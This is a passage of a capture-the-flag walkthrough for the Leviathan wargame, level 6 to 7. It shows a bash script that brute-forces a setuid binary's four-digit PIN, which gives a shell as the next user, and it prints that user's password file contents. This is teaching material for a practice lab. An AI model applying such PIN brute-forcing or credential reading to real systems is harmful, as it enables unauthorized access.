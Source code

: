 Easy enough! We got the password and we can move on to leviathan6!

### Level 6 -> 7:
As always, let's run `ls -la` and see what we have to work with.

```console
leviathan6@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan7 leviathan6 7484 Nov 14  2014 leviathan6
leviathan6@melinda:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
```

Another executable, shocker... really. This one in particular, is asking us to input a 4 digit pin. Let's try and brute force it! We will start by creating a tmp directory and opening `nano` to write a shell script.

```console
leviathan6@melinda:~$ mkdir /tmp/jhalon
leviathan6@melinda:~$ nano /tmp/jhalon/brute.sh
```

Our shell script will look something like this...

```bash
#!/bin/bash

for a in {0000..9999}
do
~/leviathan6 $a
done
```

Save the script as `bash.sh` or anything you'd like for that matter, and let's use `chmod` to give it executable permissions. Once done, let's run the script.

```console
leviathan6@melinda:/tmp/jhalon$ chmod +x brute.sh
leviathan6@melinda:/tmp/jhalon$ ./brute.sh
```

Give the script ~20 seconds to run and you should see a blank command line with `$` appear... 

```console
$ whoami 
leviathan7
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```
Done! We got the password! Technically this is the last level... but let's SSH into leviathan7 to see what's in there.
